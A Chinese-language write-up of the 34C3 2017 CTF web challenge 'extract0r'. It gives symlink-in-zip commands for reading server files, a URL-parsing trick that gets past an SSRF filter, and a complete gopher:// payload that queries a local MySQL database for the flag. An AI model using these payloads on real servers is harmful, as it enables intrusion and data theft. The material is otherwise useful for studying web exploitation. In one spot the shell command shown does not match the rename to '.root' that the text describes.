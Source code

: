 # 34c3-2017-extract0r

## 解压
首先题目会对我们提供的 URL 进行一些校验然后访问，并进行解压。因此可以借助压缩文件可以包含链接文件的特性来进行列目录或读取文件的操作。

尝试列目录，在 VPS 上生成 payload，另外需要注意我们提供的 URL 必须是域名，题目会过滤掉 URL 中的数字，意味着不能通过 IP 访问

```shell
ln -s / root
zip -y 1.zip root
```

提交请求后，页面返回了 ` we have deleted some folders from your archive for security reasons with our cyber-enabled filtering system!`

点击 cyber-enabled filtering system 给出如下代码：
```php
function verify($directory) {
    $files = glob($directory . '/*'); 
    foreach($files as $file) {
        if (!is_file($file)) {
            unlink($file);
            @rmdir($file);
        }
    }
}
```

题目会移除所有不是文件的的东西，比如目录。因此可通过 `ln -s /var/www/html/index.php` 之类读文件，但无法列目录。

但在 http://php.net/manual/en/function.glob.php 中可以看到：

![glob](img/glob.png)

glob 函数不会列出隐藏文件，借此特性便能绕过 filter 列目录，简单的将 root 重命名为 .root 即可

```shell
ln -s / root
zip -y 1.zip root
```

成功列目录

![dir](img/dir.png)

然后在 `/home/extract0r` 可以找到 `create_a_backup_of_my_supersecret_flag.sh`，其中发现 flag 在数据库中，且创建了一个空密码的用户

## SSRF bpass
知道 flag 在数据库，又存在能向提供的 URL 发出请求的功能，明显存在 SSRF

在 url.php 中可以看到发出请求的函数

```php

function clean_parts($parts) {
    // oranges are not welcome here
    $blacklisted = "/[ \x08\x09\x0a\x0b\x0c\x0d\x0e:\d]/";

    if (array_key_exists("scheme", $parts)) {
        $parts["scheme"] = preg_replace($blacklisted, "", $parts["scheme"]);
    }

    if (array_key_exists("user", $parts)) {
        $parts["user"] = preg_replace($blacklisted, "", $parts["user"]);
    }

    if (array_key_exists("pass", $parts)) {
        $parts["pass"] = preg_replace($blacklisted, "", $parts["pass"]);
    }

    if (array_key_exists("host", $parts)) {
        $parts["host"] = preg_replace($blacklisted, "", $parts["host"]);
    }

    return $parts;
}

function get_contents($url) {
    $disallowed_cidrs = [ "127.0.0.0/8", "169.254.0.0/16", "0.0.0.0/8",
        "10.0.0.0/8", "192.168.0.0/16", "14.0.0.0/8", "24.0.0.0/8", 
        "172.16.0.0/12", "191.255.0.0/16", "192.0.0.0/24", "192.88.99.0/24",
        "255.255.255.255/32", "240.0.0.0/4", "224.0.0.0/4", "203.0.113.0/24", 
        "198.51.100.0/24", "198.18.0.0/15",  "192.0.2.0/24", "100.64.0.0/10" ];

    for ($i = 0; $i < 5; $i++) {
        $url_parts = clean_parts(parse_url($url));

        if (!$url_parts) {
            error("Couldn't parse your url!");
        }

        if (!array_key_exists("scheme", $url_parts)) {
            error("There was no scheme in your url!");
        }

        if (!array_key_exists("host", $url_parts)) {
            error("There was no host in your url!");
        }

        $port = get_port($url_parts);
        $host = $url_parts["host"];

        $ip = gethostbynamel($host)[0];
        if (!filter_var($ip, FILTER_VALIDATE_IP,
            FILTER_FLAG_IPV4|FILTER_FLAG_NO_PRIV_RANGE|FILTER_FLAG_NO_RES_RANGE)) {
            error("Couldn't resolve your host '{$host}' or
                the resolved ip '{$ip}' is blacklisted!");
        }

        foreach ($disallowed_cidrs as $cidr) {
            if (in_cidr($cidr, $ip)) {
                error("That IP is in a blacklisted range ({$cidr})!");
            }
        }

        // all good, rebuild url now
        $url = rebuild_url($url_parts);


        $curl = curl_init();
        curl_setopt($curl, CURLOPT_URL, $url);
        curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);
        curl_setopt($curl, CURLOPT_MAXREDIRS, 0);
        curl_setopt($curl, CURLOPT_TIMEOUT, 3);
        curl_setopt($curl, CURLOPT_CONNECTTIMEOUT, 3);
        curl_setopt($curl, CURLOPT_RESOLVE, array($host . ":" . $port . ":" . $ip)); //加一条缓存，防止dns rebinding
        curl_setopt($curl, CURLOPT_PORT, $port);

        ...
    }
}
```

代码逻辑：
1. 使用 `parse_url` 来解析提供的 URL 为 host, scheme, port, path 等部分
2. 对每一部分进行过滤
3. 解析 host 并检查是否在黑名单内
4. 重新构建 URL
5. 使用 `libcurl` 发送请求


这里的官方标准解法是使用 ipv6 表示法来表示域名，核心是**利用 `parse_url` 和 `libcurl` 发包针对 host 解析时的差异**。

```
http://foo@[abcbcb.cf]@google.com:3306/
```

`parse_url` 解析 host 为 google.com
`libcurl` 解析为 [abcbcb.cf]

在 rfc3986 中对 host 的定义为

> host = IP-literal / IPv4address / reg-name
...
A host identified by an Internet Protocol literal address, version 6 or later, is distinguished by enclosing the IP literal within square brackets ("[" and "]"). This is the only place where square bracket characters are allowed in the URI syntax.
IP-literal = "[" ( IPv6address / IPvFuture  ) "]"

即 [ip] 是一种 host 的形式，libcurl 在解析时候认为 [] 包裹的是 host。

由于 host 会过滤数字，因此提交的 url 只能包含十六进制中剩下的 a-f。 而 .cf 域名是免费的，因此可以注册一个 abcbcb.cf 解析为 127.0.0.1

然而此处还存在一个预期外的解

```
http://foo@localhost:foo@google.com:3306/
```

`parse_url` 匹配最后一个 @ 后面符合格式的 host，因此将 google.com 解析为 host；而 `libcurl` 匹配第一个 @ 后面符合格式的 host，因而将 localhost 解析为 host

> 注：本环境 curl 版本为 7.47，无法成功利用，需要更高的版本才能利用该方法

## SSRF 攻击 MySQL
绕过了 SSRF 对 localhost 的限制，即可直接攻击 MySQL，但由于 curl 返回的数据需要能被解压，因此需要把查出来的数据构造为压缩格式。

使用 `m4st3r_ov3rl0rd` 登录，然后执行 `use flag;select flag from flag;` 获得 flag

有了 flag 接下来需要将其变为压缩格式

```python
flag_dummy = b"B"*100

payload = zip_tools.create_zip(b"gimme_flag", flag_dummy)

prefix = bytes(payload.split(flag_dummy)[0])
suffix = bytes(payload.split(flag_dummy)[1])


sql_cmd = b"select concat(cast(0x" + hexlify(prefix) + b" as binary), rpad(flag, 100, 'A'), cast(0x" + hexlify(suffix) + b" as binary)) from flag.flag-- -"
```

上面的 PoC 先创建一个 zip 文件，并填充有字符串 100*"B"。在这个基础上，利用我们的 SQL 查询出来的 flag 替换掉这个字符串。最终 select 出来即为 zip 文件。（7z 即使文件 CRC 校验错误，部分字段异常，也能成功解压）


使用 [exp](exploit.py) 生成最终 payload：

```
gopher://foo@[abcbcb.cf]@yolo.com:3306/A%48%00%00%01%85%a6%3f%20%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%6d%34%73%74%33%72%5f%6f%76%33%72%6c%30%72%64%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%00%4c%01%00%00%03%73%65%6c%65%63%74%20%63%6f%6e%63%61%74%28%63%61%73%74%28%30%78%35%30%34%62%30%33%30%34%30%61%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%36%34%30%30%30%30%30%30%36%34%30%30%30%30%30%30%30%61%30%30%30%30%30%30%36%37%36%39%36%64%36%64%36%35%35%66%36%36%36%63%36%31%36%37%20%61%73%20%62%69%6e%61%72%79%29%2c%20%72%70%61%64%28%66%6c%61%67%2c%20%31%30%30%2c%20%27%41%27%29%2c%20%63%61%73%74%28%30%78%35%30%34%62%30%31%30%32%31%65%30%33%30%61%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%36%34%30%30%30%30%30%30%36%34%30%30%30%30%30%30%30%61%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%36%37%36%39%36%64%36%64%36%35%35%66%36%36%36%63%36%31%36%37%35%30%34%62%30%35%30%36%30%30%30%30%30%30%30%30%30%31%30%30%30%31%30%30%33%38%30%30%30%30%30%30%38%63%30%30%30%30%30%30%30%30%30%30%20%61%73%20%62%69%6e%61%72%79%29%29%20%66%72%6f%6d%20%66%6c%61%67%2e%66%6c%61%67%2d%2d%20%2d%46%4f%4f%4f%4f%4f%4f%4f%4f%4f%4f%4f%4f%42%41%52
```

## References
[extract0r - web - medium](https://github.com/eboda/34c3ctf/tree/master/extract0r)

[从一道CTF题目看Gopher攻击MySql](https://www.freebuf.com/articles/web/159342.html)

[34c3 web extract0r!](https://www.jianshu.com/p/ef6cf8665a64)
